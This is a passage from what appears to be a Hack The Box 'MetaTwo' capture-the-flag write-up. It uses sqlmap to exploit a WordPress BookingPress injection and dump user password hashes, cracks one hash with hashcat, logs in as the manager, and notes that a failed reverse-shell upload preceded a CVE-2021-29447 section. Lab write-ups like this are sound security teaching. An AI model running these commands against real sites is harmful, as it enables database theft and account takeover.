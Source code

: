 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-18.png)

I can also dump content inside table **wp_users** from database **blog**:

`sqlmap -u http://metapress.htb/wp-admin/admin-ajax.php --data 'action=bookingpress_front_get_category_services&_wpnonce=047d5a1a7e&category_id=1&total_service=1' -p total_service -D blog -T wp_users --dump`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-19.png)

admin - $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.

manager - $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70


## Hash Crack

[This article](https://blog.wpsec.com/cracking-wordpress-passwords-with-hashcat/) demonstrates how to crack Wordpress hashes.


Using hashcat, hash I can crack password hash for manager:

**manager** - **partylikearockstar**

`hashcat -m 400 hash-mananger ~/Downloads/rockyou.txt`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/Crack.png)


Unfortunately, it fails to break the admin hash.


## Shell as jnelson
### Wordpress login as manager

Using the credentials cracked above, I can sign-in to Wordpress as **manager**:

`http://metapress.htb/wp-admin/profile.php`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-21.png)

Since **manager** is not an administrator account, there is not much privilege other than uploaing new media:

`http://metapress.htb/wp-admin/media-new.php`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-22.png)


php reverse shell payload fails to upload and all the other file upload evastion trick won't work here:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-23.png)

### CVE-2021–29447
